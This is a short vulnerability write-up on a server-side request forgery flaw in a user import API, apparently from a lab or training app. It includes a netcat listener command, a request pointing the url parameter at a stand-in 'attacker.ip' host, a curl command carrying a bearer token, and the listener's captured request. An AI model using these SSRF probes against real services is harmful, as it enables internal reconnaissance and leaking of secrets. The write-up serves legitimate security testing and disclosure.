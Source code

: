 # Server-side Request Forgery

## Overview

A Server-side Request Forgery (SSRF) vulnerability exists in user import API at the following endpoint:

```
http://localhost:5000/api/users/import
```

## Exploitation

The API endpoint expects a query parameter `url` pointing to a URL from where to import the contents. This can be tampered to make the application query any URL. This can be verified by setting up a local listener:

Start `netcat` listener:

```
$ nc -lv 1111
```

On sending a `GET` request to the affected API endpoint, we can verify the SSRF in our listener:

```
http://rws.local:5000/api/users/import?url=http://attacker.ip:1111/aa
```

```
curl -X GET \
  'http://localhost:5000/api/users/import?url=http://127.0.0.1:1111/aa' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGVzdEB0ZXN0LmNvbSIsInJvbGUiOiJVc2VyIiwiZXhwIjoxNTI2NTM1MTQzLCJpc3MiOiJodHRwOi8vbG9jYWxob3N0LmxvY2FsLyIsImF1ZCI6Imh0dHA6Ly9sb2NhbGhvc3QubG9jYWwvIn0.61BWoAXpLul1Kj1IYlL4jTJK1kUSHSXuQxZvNmNc-C4' \
```

```
$ nc -lv 1111

GET /aa HTTP/1.1
Host: 127.0.0.1:1111
Accept: */*
```

## Impact

An attacker can exploit this issue to leak internal infrastructure related information by attempting to connect to various internal resources and inspecting the error message received from the application.

This issue may also leak internal secrets if the application include them as part of the HTTP request sent to un-trusted endpoints.
